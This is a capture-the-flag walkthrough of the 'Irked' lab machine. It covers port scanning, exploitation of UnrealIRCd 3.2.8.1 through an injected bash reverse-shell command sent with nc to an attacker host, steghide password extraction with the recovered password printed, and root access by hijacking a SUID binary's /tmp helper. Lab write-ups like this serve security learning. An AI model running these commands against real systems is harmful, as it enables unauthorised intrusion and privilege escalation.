# Irked

### Machine Info


#### Nmap



##### HTTP (Port 80)
Index Page:


###### Gobuster
Tried `gobuster` but nothing interesting:



##### IRC (Port 6697) Internet Relay Chat Protocol



I searched for `irc` service and found about connect registration: []()https://tools.ietf.org/html/rfc1459#section-4.1


User registration process:


The version of irc is `UnrealIRC 3.2.8.1`. Let's search for public exploit:


The `UnrealIRCd 3.2.8.1` is vulnerable to `Remote Code Execution`. We can use that vulnerability to exploit this service.

#### Exploit

Vulnerability:


Exploit Code:
```
echo "AB; bash -c 'bash -i >& /dev/tcp/10.10.14.37/4444 0>&1'" | nc 10.10.10.117 6697
```


`nc` listener on attacking side:



#### Privilge Escalation

I enumerated and found that home directory of user `djmardov` is accessible and got the interesting file `.backup`:



Super elite `steg` backup password. I tried this password to login with `ssh` but failed. I think this is something related to steganography. So far I only faced with one image, at the index page. Just get that image and try to extract some hidden data:

```
❯ wget http://10.10.10.117/irked.jpg
❯ steghide extract -sf irked.jpg
Enter passphrase:
wrote extracted data to "pass.txt".
❯ cat pass.txt
Kab6h+m+bbp2J:HG
```

This could be password of `djmardov`. Try again with `ssh`:


Then I just run linux enumeration script `lse.sh` and found that there is a binary `/usr/bin/viewuser` which looks interesting:



Just execute binary to check what it is:


It seems like it is trying to execute `/tmp/listusers`. So I just create simple `listusers` which just spawns bash shell:

```
djmardov@irked:/tmp$ echo bash > listusers
djmardov@irked:/tmp$ chmod 755 listusers
djmardov@irked:/tmp$ cat listusers
bash
```

And execute:


We got the root shell and you can get `root.txt` :)
